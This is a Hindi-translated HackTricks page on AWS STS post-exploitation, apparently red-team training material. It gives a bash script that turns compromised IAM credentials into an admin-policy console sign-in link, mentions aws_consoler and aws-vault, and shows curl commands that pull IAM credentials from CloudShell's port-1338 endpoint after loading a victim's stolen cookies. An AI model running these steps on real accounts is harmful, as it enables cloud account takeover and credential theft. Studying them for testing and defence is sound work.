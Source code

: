 # AWS - STS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

अधिक जानकारी के लिए:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### From IAM Creds to Console

यदि आप कुछ IAM क्रेडेंशियल प्राप्त करने में सफल रहे हैं, तो आप निम्नलिखित उपकरणों का उपयोग करके **वेब कंसोल** तक पहुँचने में रुचि रखते होंगे।\
ध्यान दें कि उपयोगकर्ता/भूमिका के पास **`sts:GetFederationToken`** अनुमति होनी चाहिए।

#### Custom script

निम्नलिखित स्क्रिप्ट डिफ़ॉल्ट प्रोफ़ाइल और एक डिफ़ॉल्ट AWS स्थान (न तो gov और न ही cn) का उपयोग करेगी ताकि आपको एक साइन किया हुआ URL मिल सके जिसका उपयोग आप वेब कंसोल में लॉगिन करने के लिए कर सकते हैं:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

आप **एक वेब कंसोल लिंक उत्पन्न कर सकते हैं** [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
सुनिश्चित करें कि IAM उपयोगकर्ता के पास `sts:GetFederationToken` अनुमति है, या एक भूमिका प्रदान करें जिसे ग्रहण किया जा सके।
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) एक उपकरण है जो विकास वातावरण में AWS क्रेडेंशियल्स को सुरक्षित रूप से स्टोर और एक्सेस करने के लिए है।
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
आप **aws-vault** का उपयोग करके **ब्राउज़र कंसोल सत्र** प्राप्त कर सकते हैं
{% endhint %}

#### कंसोल से IAM क्रेडेंशियल्स तक

[**इस पोस्ट में मूल रूप से खोजा गया**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), यदि आप किसी वेब कंसोल तक पहुंच को समझौता करने में सफल होते हैं (शायद आपने कुकीज़ चुरा लीं और .aws फ़ोल्डर तक पहुंच नहीं पा रहे हैं), तो आप **CloudShell** के माध्यम से उस उपयोगकर्ता के लिए कुछ IAM टोकन क्रेडेंशियल्स प्राप्त कर सकते हैं।

CloudShell IAM क्रेडेंशियल्स को **पोर्ट 1338 पर एक अप्रलेखित एंडपॉइंट** के माध्यम से उजागर करता है। पीड़ित से सत्र कुकीज़ को अपने ब्राउज़र में लोड करने के बाद, आप CloudShell पर जा सकते हैं और IAM क्रेडेंशियल्स प्राप्त करने के लिए निम्नलिखित कमांड जारी कर सकते हैं।
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
